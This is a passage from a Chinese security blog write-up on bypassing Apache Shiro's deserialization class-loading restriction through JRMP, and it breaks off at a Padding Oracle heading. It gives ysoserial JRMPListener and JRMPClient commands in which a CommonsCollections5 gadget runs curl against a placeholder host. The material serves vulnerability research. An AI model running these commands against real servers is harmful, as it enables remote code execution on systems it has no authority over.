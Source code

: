 他继承了`ObjectInputStream`类，重写了`resolveClass`方法，再来看一下原版`resolveClass`方法：

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_409_/t0147934790d90e763a.jpg)

`Class.forName`和`ClassUtils.forName`的差别，来看看`ClassUtils`具体实现：org/apache/shiro/util/ClassUtils.java#forName

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_431_/t01af5493fd812f4d21.jpg)

shiro不是像原版那样通过`java.lang.Class`反射获取class，而是通过`ParallelWebappClassLoader`去加载class

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_463_/t0192c4506108cd4d84.jpg)

查了一些下资料，看到[orange师傅文章](http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)评论中说不支持装载数组类型，这里没细跟原因了。

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_145_/t010fa2825c72e22e34.jpg)

#### <a class="reference-link" name="JRMP%E7%BB%95%E8%BF%87"></a>JRMP绕过

[Orang师傅在文章](http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html)中一顿操作，发现JRMP可以避开上述限制，测试一下：

server：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'curl http://x.x.x.x:8989'
```

client:

```
java -jar ysoserial.jar JRMPClient 'x.x.x.x:12345'
```

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_182_/t01a3e22b52781026ff.jpg)

稍微调了一下EXP,大概能行的原因就是走的远程的class加载的，而不是像之前那样直接打本地：

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_620_/t01764428eede918794.jpg)

[![](./img/200793/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_614_/t01b061535adaf57b27.jpg)

不过有一点比较困惑，用URLDNS打了没结果，但是直接用5链JRMP打却可以…



## Shiro Padding Oracle攻击（Shiro &lt;= 1.4.1）

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0"></a>漏洞复现
